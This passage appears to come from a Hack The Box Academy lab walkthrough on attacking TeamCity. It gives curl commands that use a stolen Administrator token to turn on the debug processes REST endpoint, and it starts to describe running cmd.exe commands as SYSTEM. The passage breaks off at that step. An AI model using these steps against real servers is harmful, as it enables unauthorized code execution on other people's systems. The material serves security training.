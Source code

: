 Code: shell

```shell
curl -X POST "http://STMIP/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true" -H "Authorization: Bearer eyJ0eXA <SNIP> Q1NjU2NDM1"
```

```
┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-z9z5rop7yg]─[~]
└──╼ [★]$ curl -X POST "http://10.129.22.176/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true" -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.ZE5WVFYyM09YTm41R1JNVU50Uy1BbXhJUmhF.MjdkNWY4ZGItNjkzYi00ZTYzLWJhYTktMGFhMGQ1NjU2NDM1"
```

Subsequently, the students will restart the application to apply the change to debug mode targeting the `/admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties` endpoint using `cURL`, specifying the Administrator token obtained earlier:

Code: shell

```shell
curl "http://STMIP/admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties" -H "Authorization: Bearer eyJ0eXA <SNIP> Q1NjU2NDM1"
```

```
┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-z9z5rop7yg]─[~]
└──╼ [★]$ curl "http://10.129.22.176/admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties" -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.ZE5WVFYyM09YTm41R1JNVU50Uy1BbXhJUmhF.MjdkNWY4ZGItNjkzYi00ZTYzLWJhYTktMGFhMGQ1NjU2NDM1"

    <!DOCTYPE html>
    <html lang="en" class="admin-ui">
      <head>
        <title>TeamCity</title>

<link rel="Shortcut Icon" href="/favicon.ico?v10" type="image/x-icon" sizes="16x16 32x32"/>
<meta charset="UTF-8">

<SNIP>

</div>
  <div data-iframe-height></div>
</div>
</form>

      <div data-iframe-height></div>
      </body>
    </html>
```

Next, students will send a `POST` request to the `/app/rest/debug/processes?exePath=cmd.exe&params=/c%20whoami` using the `whoami` command to get information about the current user context that the application is running as and to find out the application is running in the context of `NT AUTHORITY\SYSTEM`:
